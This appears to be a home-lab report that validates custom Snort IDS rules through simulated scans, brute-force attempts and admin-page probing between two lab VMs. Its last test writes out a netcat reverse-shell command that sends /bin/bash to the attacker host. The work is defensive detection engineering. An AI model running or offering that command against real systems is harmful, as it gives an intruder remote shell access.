



# SOC Snort IDS Lab — Detection Validation Report

## Overview

This document validates detection engineering implemented within the SOC Snort IDS Lab environment.  
Controlled attack simulations were executed against the monitored Ubuntu host (192.168.1.3) from the Windows attack VM (192.168.1.4).

All detections are aligned to MITRE ATT&CK techniques and validated through live traffic simulation.

---

# 1. Port Scan Detection

**Technique:** MITRE ATT&CK T1046 – Network Service Discovery  
**Rule SID:** 1000003  
**Attack Tool:** Nmap (SYN Scan)

### Attack Execution

nmap -sS 192.168.1.3

### Detection Output

### Analyst Notes

- Multiple SYN packets detected within short timeframe.
- Detection triggered based on connection behaviour pattern.
- Source IP: 192.168.1.4
- Target Host: 192.168.1.3

This validates reconnaissance detection capability.

---

# 2. Burst Brute Force Detection

**Technique:** MITRE ATT&CK T1110 – Brute Force  
**Rule SID:** 1000004  
**Detection Logic:** 5 POST requests within 10 seconds (track by_src)

### Attack Execution
Rapid POST requests sent to simulated login endpoint.

### Detection Output

### Analyst Notes

- High-velocity login attempts detected.
- Behavior indicative of automated credential stuffing.
- Short time window threshold successfully triggered.

This validates high-speed brute force detection capability.

---

# 3. Low-and-Slow Brute Force Detection

**Technique:** MITRE ATT&CK T1110 – Brute Force  
**Rule SID:** 1000006  
**Detection Logic:** 20 POST requests within 300 seconds (track by_src)

### Attack Execution
POST attempts spaced 3 seconds apart to simulate low-and-slow evasion.

### Detection Output

### Notes

- Slower credential attempts designed to evade burst thresholds.
- Extended time-window detection successfully identified behaviour.
- Demonstrates detection tuning beyond basic threshold logic.

This validates adaptive brute force detection engineering.

---

## Detection Engineering Summary

This lab demonstrates layered detection coverage across:

- Reconnaissance
- Credential Access
- Behavioral threshold tuning
- MITRE ATT&CK alignment

Detection logic was validated using controlled adversary simulation techniques.

# Detection Validation Report

This document validates the functionality of custom Snort IDS detection rules through simulated attack scenarios.

## Test Environment

| Component     | Description                    |
|---------------|--------------------------------|
Attacker System | Windows VM with Nmap and Ncat  |
Target System   | Ubuntu VM running Snort IDS    |
Network         | VirtualBox Host-Only Network   |
Services        | Python HTTP server (port 8080) |

## Detection Tests

### ICMP Host Discovery

Command executed: ping 192.168.1.3

Result:

Snort generated ICMP alert confirming host discovery detection.

---

### Port Scan

Command executed: nmap -sS 192.168.1.3

Result:

Snort triggered SYN scan detection rule.

---

### Admin Panel Enumeration

Command executed: curl http://192.168.1.3:8080/admin

Result:

Snort detected suspicious admin endpoint access.

---

### Web Brute Force

Command executed:

Simulated POST requests to web server.

Result:

Snort triggered brute force detection rule.

---

### Reverse Shell

Command executed: nc 192.168.1.4 4444 -e /bin/bash

Result:

Snort detected outbound command & control connection.

Example alert: SOC-LAB Reverse Shell Outbound Connection

---

## Conclusion

All custom detection rules successfully triggered during the controlled attack simulations, demonstrating effective monitoring coverage across multiple adversary behaviours.
